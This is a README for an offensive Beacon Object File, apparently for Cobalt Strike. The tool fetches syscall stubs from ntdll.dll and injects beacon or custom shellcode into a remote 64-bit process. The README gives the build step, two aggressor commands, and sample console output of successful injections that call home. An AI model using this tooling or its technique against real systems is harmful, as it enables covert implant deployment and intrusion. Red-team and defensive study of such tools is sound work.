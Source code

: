 ## Syscalls Shellcode Injection BOF (64-bit only)

Beacon object file to:
- Fetch Syscall Stubs from on-disk ntdll.dll (All credit to @odzhan - https://github.com/odzhan/injection/blob/master/syscalls/inject_dll.c)
- Inject shellcode (either custom or beacon) into remote process using NtOpenProcess -> NtAllocateVirtualMemory -> NtWriteVirtualMemory -> NtCreateThreadEx.

Credit also to @tomcarver16 for their DLL inject BOF and aggressor script (https://github.com/tomcarver16/BOF-DLL-Inject)

## Compile

```
make
```

## Usage

Aggressor script included with the following commands:
- `syscalls_inject PID listener_name` - Injects shellcode for beacon into target PID. 
- `syscalls_shinject PID path_to_bin` - Injects custom shellcode into target PID.

> NOTE: BOF is for 64-bit use only.

### Custom shellcode
```
beacon> syscalls_shinject 2268 C:\Users\user\Desktop\beacon64.bin
[*] Syscalls Shellcode Inject (@ajpc500)
[*] Reading shellcode from: C:\Users\user\Desktop\beacon64.bin
[+] host called home, sent: 266159 bytes
[+] received output:
Shellcode injection completed successfully!
```

### Beacon shellcode
```
beacon> syscalls_inject 13764 http
[*] Syscalls Shellcode Inject (@ajpc500)
[*] Using http listener for beacon shellcode generation.
[+] host called home, sent: 266159 bytes
[+] received output:
Shellcode injection completed successfully!
```